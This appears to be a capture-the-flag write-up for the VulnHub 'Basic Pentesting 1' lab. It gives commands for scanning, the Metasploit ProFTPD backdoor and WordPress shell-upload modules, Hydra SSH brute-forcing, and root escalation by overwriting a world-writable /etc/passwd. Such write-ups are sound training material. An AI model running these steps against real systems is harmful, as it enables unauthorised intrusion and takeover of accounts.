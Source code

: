 <h1 align="center">
  <a href="https://www.vulnhub.com/entry/basic-pentesting-1,216/">Basic_Pentesting1</a>
</h1>

## Port Scanning
```bash
$ nmap -A <target_ip>

Other Scanning Examples:
$ nmap -A -p- -T4 <target_ip>
$ nmap -sV -sC <target_ip>
```

## Open Ports
![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/OpenPorts.png)


## Exploiting port 21 ProFTPD 1.3.3c 
```bash
$ msfconsole
$ search ProFTPD
$ use exploit/unix/ftp/proftpd_133c_backdoor
$ set rhosts <target_ip>
$ set rport 21
$ run/exploit
--------------Hoorah--We--are--in--------------------
-------------------EXPLOITED-------------------------
```

## User enumeration
	`We had found that the users are marlinspike and root from previous ftp exploit.`

## Bruteforcing into port 22 (SSH) using hydra trying default credentials
```bash
$ hydra -l marlinspike -P <wordlist> ssh://target_ip -V

Password Found for user(marlinspike):
[22][ssh] host: 192.168.1.70   login: marlinspike   password: marlinspike
```

## Privilege Escalation
`marlinspike@vtcsec:~$ find / -type f -perm -u=s 2>/dev/null`


![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/PrivEsc1.png)


	After researching, we find that the user(marlinspike) can use all the commands.

![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/PrivEsc0.png)

	Now, let's try abusing binary `sudo su` and enter password of the user `marlinspike` and boy we are in :V

![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/PrivEsc-Success.png)


## Directory Enumeration for port 80 (http-server)

> $ gobuster dir -u <target_url> -w <path-to-wordlist> 


![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/Directory-Enum.png)

	We found /secret directory. Let's check in the browser.
	We can see a wordpress blog running on the the server.


	We can see that the webpage is not properly loading. 
	So let's add the vtcsec into our /etc/hosts file and check how the webpage looks afterward.

![](https://github.com/ninchy0/vulnhub-writups/blob/main/Basic_pentesting1/images/Hosts.png)
![](https://github.com/ninchy0/vulnhub-writups/blob/main/Basic_pentesting1/images/Wordpress.png)



	Now, let's go to wp-admin as it is the admin panel for wordpress sites and
	try default login credentials i.e admin/admn we're in.
	If the default credentials wouldn't have worked we probably would have needed to
	bruteforce into the admin panel via burpsuite intruder or hydra or by using
	any bruteforcing tools you prefer.


	Now, let's try to gain access with wordpress exploit via metasploit.
```bash
$ msfconsole
$ search wp_admin
$ use exploit/unix/webapp/wp_admin_shell_upload

set every options that is needed for the exploit.
```

We can see that we got ourselves a meterpreter session.
![](https://github.com/ninchy0/vulnhub-writups/blob/main/Basic_pentesting1/images/reverse_shell.png)

## Privilege Escalation
	To check for any potential misconfigurations that could lead to privilege escalation, a good script to use is the unix-privesc-check script from [pentestmonkey](https://github.compentestmonkey/unix-privesc-check)


This can be uploaded from the meterpreter session by running the following command:
> upload /usr/bin/unix-privesc-check /tmp/unix-privesc-check


After we upload the file to the server we then can execute the file:
```bash
$ shell
$ cd /tmp
$ chmod +x unix-privesc-check
```


The author of unix-privesc-check recommends to grep the output for WARNING, which will show any potential misconfigurations. This can be run as one single command:
> ./unix-privesc-check standard | grep WARNING


	We can see
	`WARNING: /etc/passwd is a critical config file. World write is set for /etc/passwd` after executing the unix-privesc-check.

	This means that we can write into the /etc/passwd file. So, let's download the file into our host machine by getting back into our meterpreter shell and executing:
> download /etc/passwd <path-where-to-save>


	Now, from a local terminal, we can use openssl to generate a new hashed password:
> openssl passwd -1 lol

	We get our hashed password i.e `$1$X5FkPmLQ$h0yILWHDiUeWUeezpmWU20`
	Now, open the passwd file we downloaded before and replace x after root like:
![](https://github.com/ninchy0/vulnhub-writups/blob/main/Basic_pentesting1/images/Hashed.png)

	Now, all we need to do is upload the modified passwd file from our host to target server
	using:
> upload <path-where-you-saved> /etc/passwd

	To make the shell interactive:
> python -c 'import pty; pty.spawn("/bin/bash")'

	Finally, we can switch to root's account. 
```bash
$ su root
Password: lol
```
![](https://github.com/ninchy0/vulnhub-writups/blob/main/Basic_pentesting1/images/final-root-access.png)


<a href="https://github.com/ninchy0"><p style="text-align: right;">ninchy0</p></a>
